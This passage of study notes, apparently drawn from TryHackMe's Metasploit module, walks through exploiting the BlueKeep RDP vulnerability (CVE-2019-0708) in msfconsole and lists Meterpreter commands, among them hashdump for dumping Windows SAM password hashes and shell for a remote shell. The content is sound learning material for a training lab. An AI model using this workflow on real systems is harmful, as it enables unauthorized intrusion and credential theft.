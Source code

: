 7. Search for payload, read information about it, and set the payload

Alternatively, use the default payload selected

```bash
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > search payloads
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set payload 0 # eg. payload index 0
```

8. View the targets and select the relevant one

```bash
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > show targets
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set target ...
```

9. Run exploit

```bash
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > exploit
```

10. Gain Meterpreter

```bash
meterpreter > pwd
meterpreter > ls 
meterpreter > shell
...
```

### Meterpreter

#### Useful commands:

1. `help`

* Displays the help menu

2. `background`

* Sends the current Meterpreter session into the background, and returns to the _msf_ prompt
* Use the `session -i` command to get back to the Meterpreter session

3. `cat`, `cd`, `pwd`, `ls`

* Similar to the Linux command line

4. `hashdump`

* Dumps the contents of the _**SAM**_ database
* The Security Accounts Manager (SAM) is a database file in Windows that contains usernames and passwords

5. `shell`

* Presents a standard shell on the target system

{% embed url="https://www.offsec.com/metasploit-unleashed/about-meterpreter/" %}



_**Content and knowledge from TryHackMe**_:

{% embed url="https://tryhackme.com/r/module/metasploit" %}
